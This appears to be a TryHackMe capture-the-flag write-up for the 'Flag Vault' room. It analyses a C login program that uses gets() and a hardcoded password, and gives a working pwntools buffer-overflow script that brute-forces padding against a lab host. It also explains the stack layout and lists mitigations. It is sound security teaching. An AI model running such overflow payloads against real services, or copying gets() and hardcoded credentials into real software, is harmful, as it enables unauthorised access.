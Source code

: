 # TryHackMe - Flag Vault (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025-07-06
>
> Category: Binary Exploitation / Reverse Engineering
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault)

---

## Challenge Description

Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

We're provided with the source code for a C-based login system. According to the challenge description, the password is hardcoded, but the input for it is commented out.


## Goal

Bypass the login mechanism and retrieve the flag.


## TL;DR

- Analyzed the provided C source code.
- Found that password input is disabled, while a hardcoded password check remains active.
- Identified a classic buffer overflow opportunity via the `gets()` call.
- Crafted an exploit using Python and `pwntools` to overwrite the password buffer in memory.
- Successfully retrieved the flag.


## Source Code Analysis

We are given the C source code. Here's a breakdown of the most critical part:

#### Vulnerable login logic:

```c
char password[100] = "";
char username[100] = "";

printf("Username: ");
gets(username);

// If I disable the password, nobody will get in.
//printf("Password: ");
//gets(password);

if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
    print_flag();
}
else{
    printf("Wrong password! No flag for you.");
}
```

#### Key Observations:

- Password prompt is commented out, meaning password remains an empty string.
- `gets(username)` is used - a dangerous function that doesn't check bounds.
- If both username and password match the hardcoded values, the flag is printed.
- Since we control username, and it's stored before password in memory, we can overflow into password using a long enough input.


## Exploitation Strategy

We aim to overwrite the empty password buffer with the `5up3rP4zz123Byte` string by overflowing the username buffer.

To find the correct padding between username and password, we bruteforce it.


## Exploit Code

```python
from pwn import *

context.log_level = 'warning'

for padding in range(89, 110):
    conn = remote('10.10.147.75', 1337)
    payload = b'bytereaper\x00' + b'0' * padding + b'5up3rP4zz123Byte'

    conn.recvuntil(b'Username:')
    conn.sendline(payload)

    response = conn.recvall().decode().lstrip()

    if response != 'Wrong password! No flag for you.':
        print(f'padding: {padding}')
        print(f'flag: {response}')
```

This script:
- Connects to the server.
- Sends a crafted payload to overflow username and overwrite password.
- Brute-forces the correct padding.
- Prints the flag on a successful authentication.

## Exploitation Output

Upon executing the exploit code we get our flag:

![flag](images/flag.png)


#### Why is the Padding 101 Bytes?

After writing the 10-character username and a null terminator (11 bytes total), we expected the remaining 89 bytes (of the 100-byte buffer) to end right at the boundary.

However, due to how stack variables are laid out and aligned in memory, there's a **12-byte padding** between the username and password buffers.

This padding ensures the stack remains aligned to **16 bytes**, in accordance with the **System V AMD64 ABI**, which modern compilers like GCC follow. It improves memory access performance and maintains compatibility.

So the full structure looks like this:

- `username[100]` - starts at aligned address.
- 12-byte padding - inserted by the compiler for alignment.
- `password[100]` - follows the padding.

To overflow from the start of username into password, we need:

- 11 bytes - username + null terminator
- 101 bytes - padding to reach the password buffer

Total: **112 bytes**, which aligns with our observed working exploit.

## Conclusion

The challenge showcased a classic example of insecure coding practices in C using `gets()` without bounds checking and leaving critical logic in place even when input is removed.

#### Skills Practiced

- Manual code review and vulnerability analysis.
- Understanding stack layout and memory buffer overflows.
- Writing custom exploits using `pwntools`.

#### Mitigations

- Never use `gets()` - it's unsafe. Use `fgets()` or other bounded alternatives.
- Never store passwords in plaintext or hardcode them into binaries.
- Always validate input length and use secure memory handling practices.

#### Final Thoughts

Although the password prompt was disabled, the actual authentication logic remained, making the system vulnerable to a buffer overflow exploit. This challenge was a fun and simple exercise in binary exploitation and reverse engineering fundamentals.

**Note:** The flag value has been redacted in accordance with TryHackMe's write-up policy.